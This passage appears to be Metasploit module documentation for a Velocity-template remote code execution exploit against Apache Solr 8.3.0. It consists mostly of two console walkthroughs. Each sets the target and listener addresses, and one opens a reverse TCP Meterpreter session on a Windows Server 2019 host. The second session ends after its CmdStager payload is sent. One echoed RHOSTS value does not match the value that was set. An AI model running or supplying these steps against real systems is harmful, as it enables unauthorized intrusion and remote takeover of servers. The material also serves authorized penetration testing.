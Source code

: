 These `cmd/unix` payloads have not been tested:
1. cmd/unix/bind_stub
2. cmd/unix/reverse_stub
3. generic/custom


## Examples

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, using PowerShell
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 2
TARGET => 2
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] Found Powershell at C:\Windows\System32\WindowsPowerShell\v1.0\
[*] Sending stage (180291 bytes) to 192.168.137.155
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 192.168.137.155:50210) at 2020-03-29 00:04:01 +0800

meterpreter > sysinfo
Computer        : 2K19DTCTR
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
gSystem Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, using CmdStager
```
msf5 > use exploit/multi/http/solr_velocity_rce 
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 3
TARGET => 3
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Sending CmdStager payload...
```